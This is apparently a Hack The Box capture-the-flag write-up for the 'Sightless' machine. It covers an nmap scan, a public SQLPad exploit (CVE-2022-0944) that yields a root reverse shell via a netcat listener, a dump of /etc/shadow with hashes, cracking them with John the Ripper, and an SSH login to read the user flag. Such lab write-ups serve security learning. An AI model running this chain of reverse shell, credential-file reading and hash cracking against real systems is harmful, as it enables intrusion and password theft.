 
https://app.hackthebox.com/machines/Sightless

Nmap scan

> nmap -sCSV -T4 $ip
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 01:36 AEDT
Nmap scan report for 10.10.11.32 (10.10.11.32)
Host is up (0.017s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/20%Time=6713C3F1%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.11 seconds
```

checking http://sightless.htb
fond http://sqlpad.sightless.htb/
fond vulnerability in sqlpad - [here](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)
found more info about the vulnerability - [here](https://github.com/shhrew/CVE-2022-0944?tab=readme-ov-file)
exploit worked

> python3 main.py http://sqlpad.sightless.htb/ 10.10.16.30 9999            
```
[┤] Trying to bind to 10.10.16.30 on port 9999: Trying 10.10.16.30
Exception in thread Thread-1 (start_listener):
Traceback (most recent call last):
  File "/usr/lib/python3.12/threading.py", line 1075, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.12/threading.py", line 1012, in run
    self._target(*self._args, **self._kwargs)
  File "/home/lnxuser/ctfs/CVE-2022-0944/main.py", line 72, in start_listener
    listener = listen(lport, bindaddr=lhost)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/lnxuser/ctfs/CVE-2022-0944/venv/lib/python3.12/site-packages/pwnlib/tubes/listen.py", line 108, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use

```

>  nc -vlnp 9999
```
listening on [any] 9999 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.32] 37106
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

checking /etc/shadow file

> cat /etc/shadow
```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

seems like user flags can be cracked by john the ripper

> john hash -w=/usr/share/wordlists/rockyou.txt    
```
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blindside        (root)     
insaneclownposse (michael)     
2g 0:00:00:06 DONE (2024-10-20 03:21) 0.3322g/s 10205p/s 17009c/s 17009C/s XIOMARA..sinead1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

after ssh-ing michael I found the user flag

> ssh michael@10.10.11.32 
```        
michael@10.10.11.32's password: 
Last login: Sat Oct 19 16:24:49 2024 from 10.10.16.31
michael@sightless:~$ ls
exploit.py  linpease.sh  new  README  result.txt  user.txt
michael@sightless:~$ cat user.txt 
4e365dc2a4a1350b73e96c3e232fe9e2
```

